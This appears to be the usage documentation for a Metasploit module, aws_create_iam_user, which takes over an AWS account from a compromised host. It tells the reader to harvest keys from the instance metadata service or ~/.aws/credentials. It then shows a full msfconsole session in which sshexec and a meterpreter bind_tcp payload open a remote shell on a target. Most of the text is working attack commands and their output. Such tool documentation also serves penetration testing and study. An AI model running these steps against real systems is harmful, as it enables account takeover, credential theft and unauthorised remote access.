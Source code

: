 # Usage

aws_create_iam_user can be used to take over an AWS account given access to
a host having 1). overly permissive instance profile/role, 2). API Access keys.
Once a foothold is established, you can run the module to pull temporary
access keys from the metadata service. If this fails, search the instance for
API access keys, e.g., see ~/.aws/credentials, and set `AccessKeyId`,
`SecretAccessKey`, & `Token` (optional).

### Establish a foothold

You first need a foothold in AWS, e.g., here we use `sshexec` to get the
foothold and launch a meterpreter session.

```
$ ./msfconsole
...
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) > set password some_user
password => some_user
msf exploit(sshexec) > set username some_user
username => some_user
msf exploit(sshexec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(sshexec) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(sshexec) > exploit -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(sshexec) > [*] 192.168.1.2:22 - Sending stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Command Stager progress -  42.09% done (306/727 bytes)
[*] Command Stager progress - 100.00% done (727/727 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:33750 -> 192.168.1.2:4444) at 2016-11-21 17:58:42 +0000
```

We will be using session 1.

```
msf exploit(sshexec) > sessions

Active sessions
===============

  Id  Type                   Information                                                                       Connection
  --  ----                   -----------                                                                       ----------
  1   meterpreter x86/linux  uid=50011, gid=50011, euid=50011, egid=50011, suid=50011, sgid=50011 @ ip-19-...  192.168.1.1:41634 -> 192.168.1.2:4444 (192.168.1.2)

```

